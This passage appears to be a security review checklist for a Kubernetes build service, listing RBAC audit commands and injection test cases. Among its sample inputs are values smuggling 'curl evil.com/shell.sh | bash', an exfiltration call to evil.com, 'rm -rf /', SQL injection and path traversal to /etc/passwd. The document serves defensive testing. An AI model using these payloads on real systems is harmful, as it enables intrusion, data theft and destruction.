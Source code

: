 #### Critical Vulnerabilities to Check
```bash
# Check RBAC permissions
kubectl auth can-i --list --as=system:serviceaccount:knative-lambda:knative-lambda-builder

# Check service account token mounting
kubectl get sa knative-lambda-builder -n knative-lambda -o yaml

# Check for privilege escalation
kubectl get rolebindings,clusterrolebindings -n knative-lambda -o wide

# Test authorization bypass
curl -X POST http://knative-lambda-builder/cloudevents \
  -H "Content-Type: application/cloudevents+json" \
  -d '{"malicious": "payload"}'
```

---

### 3. Input Validation & Injection Vulnerabilities (P0)

#### Files to Review
- `internal/security/security.go`
- `internal/handler/event_handler.go`
- `internal/handler/build_context_manager.go`
- `internal/templates/templates.go`
- `pkg/builds/request.go`

#### Injection Vectors to Test

**1. CloudEvent Injection**
```json
// Test malicious CloudEvents
{
  "specversion": "1.0",
  "type": "build.started",
  "source": "../../etc/passwd",
  "id": "'; DROP TABLE builds; --",
  "data": {
    "buildID": "../../../sensitive",
    "imageName": "evil.registry.com/backdoor",
    "sourceCode": "'; rm -rf /; #"
  }
}
```

**2. Command Injection**
```yaml
Build Context:
  - Test: Image name with shell metacharacters
    Example: "image; curl evil.com/shell.sh | bash"
  - Test: Build ID with path traversal
    Example: "../../../etc/passwd"
  - Test: Source code with shell commands
    Example: "code\n$(curl evil.com/exfil)"
```
